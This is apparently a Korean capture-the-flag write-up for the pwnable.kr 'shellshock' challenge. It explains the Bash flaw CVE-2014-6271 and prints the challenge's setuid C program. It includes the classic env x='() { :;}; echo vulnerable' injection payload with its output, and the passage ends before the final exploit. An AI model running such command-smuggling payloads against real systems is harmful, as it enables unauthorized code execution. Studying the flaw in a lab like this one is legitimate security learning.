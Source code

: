 # [Toddler's Bottle] shellshock
shellshock에서 제공하는 글을 확인해보자.
```
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)
```
putty로 접속 해주자.

글에서 `shocking news about bash`라고 했으므로 Bash 취약점(CVE-2014-6271)에 대해 알아보자.

bash 취약점은  
`env x='() { :;}; echo vulnerable' bash -c "echo test"`를 실행해줌으로써 확인 할 수 있는 취약점인데

환경변수 설정을 하는 env 를 통해 환경변수 x = (함수명) {수행코드}; 라고 환경변수를 등록하는 ; 까지는 정상적인 동작이나,  
그 이후에 삽입되어 있는 echo vulnerable' bash -c "echo test" 명령어는 무시되거나 오류를 발생해야 하지만  
실제로는 수행이되어 다음과같이 test를 출력하는 것을 알 수 있습니다.
```
shellshock@ubuntu:~$ env x='() { :;}; echo vulnerable' bash -c "echo test"
env x='() { :;}; echo vulnerable' bash -c "echo test"
test
```

`shellshock.c`를 살펴보면
```
shellshock@ubuntu:~$ cat shellshock.c
cat shellshock.c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}

```
